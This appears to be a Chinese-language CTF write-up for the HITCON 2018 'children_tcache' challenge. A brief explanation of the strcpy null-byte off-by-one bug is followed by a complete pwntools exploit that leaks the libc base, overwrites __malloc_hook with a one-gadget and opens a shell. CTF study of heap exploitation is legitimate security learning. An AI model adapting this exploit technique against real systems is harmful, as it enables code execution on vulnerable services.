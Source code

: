 ```yaml
---
title: 'Hitcon:children_tcache'
date: 2018-11-16 22:07:12
tags:
---
```

children..和baby是名字打错了吗/捂脸
<!--more-->
# Analysis
[附件][2]
baby_tcache的低级版...
[baby_tcache][1]
主要漏洞在strcpy存在null byte off
只要像babytcache一样构造直接show来leak就可以了...
主要思路在上题链接中这里不多赘述

# EXP
```python
from pwn import *
def cmd(c):
	p.sendlineafter("ice: ",str(c))
def add(size,data):
	cmd(1)
	p.sendlineafter("Size:",str(size))
	p.sendafter("Data:",data)
def show(idx):
	cmd(2)
	p.sendlineafter("Index:",str(idx))
def free(idx):
	cmd(3)
	p.sendlineafter("Index:",str(idx))

p=process("./children_tcache")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
for x in range(6):
	add(0x80,"\n")
add(0x5e0,'\n')#6
add(0x500,'\n')#7
add(0x80,'\n')#8
free(6)


add(0x18,'B'*0x18)#6
add(0x80,'\n')#9

for x in range(6):
	free(x)


free(8)
free(6)
add(0x100,'\n')#0
free(9)
free(7)
add(0x350,'\n')#1
add(0x30,'\n')#2
add(0x40,'\n')#3
show(0)
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7dcfca0-0x7ffff79e4000)
libc.address=base
log.warning(hex(base))
add(0x100,'\n')
free(0)
free(4)
add(0x100,p64(libc.symbols['__malloc_hook']))
add(0x100,p64(libc.symbols['__malloc_hook']))
add(0x100,p64(0x10a38c+base))
cmd(1)
p.sendline("0")
p.sendline("clear")
p.interactive("nier>>>")
```




[1]:[https://n132.github.io/2018/11/15/Hitcone-baby-tcache/]
[2]:[1]:https://github.com/n132/Watermalon/tree/master/Hitcon_2018/children_tcache